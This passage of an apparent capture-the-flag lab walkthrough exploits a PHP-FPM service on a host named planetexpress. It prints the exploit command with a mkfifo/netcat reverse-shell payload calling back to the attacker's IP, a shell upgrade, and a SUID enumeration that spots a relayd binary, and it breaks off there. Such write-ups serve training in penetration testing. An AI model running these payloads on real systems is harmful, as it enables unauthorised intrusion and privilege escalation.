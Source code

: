 ```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 80                         
listening on [any] 80 ...
```

Now we can launch the exploit.

```
┌──(kali㉿kali)-[~]
└─$ python3 fpm.py -c "<?php passthru('rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c \"cat /tmp/x | /bin/sh -i 2>&1 | nc 192.168.118.18 80 > /tmp/x\"'); ?>" -p 9000 192.168.120.158 /var/www/html/planetexpress/plugins/PicoTest.php
```

We catch a reverse shell and upgrade to a full TTY using Python.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 80                                                                                 
listening on [any] 80 ...
connect to [192.168.118.18] from (UNKNOWN) [192.168.120.158] 49198
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@planetexpress:~/html/planetexpress/plugins$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Escalation

### Abusing SUID binary

After a bit of enumeration, we see an unusual binary called `relayd` with the SUID bit set.

```
www-data@planetexpress:~/html/planetexpress/plugins$ find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
<find / -perm -g=s -o -perm -u=s -type f 2>/dev/null 
/usr/local/lib/python3.7
/usr/local/lib/python3.7/dist-packages
/usr/local/lib/python2.7
/usr/local/lib/python2.7/site-packages
/usr/local/lib/python2.7/dist-packages
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/relayd
/usr/sbin/unix_chkpwd
/usr/bin/dotlockfile
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/expiry
/usr/bin/ssh-agent
/usr/bin/bsd-write
/usr/bin/chage
/usr/bin/crontab
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chfn
/usr/bin/wall
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/gpasswd
/run/log/journal
```
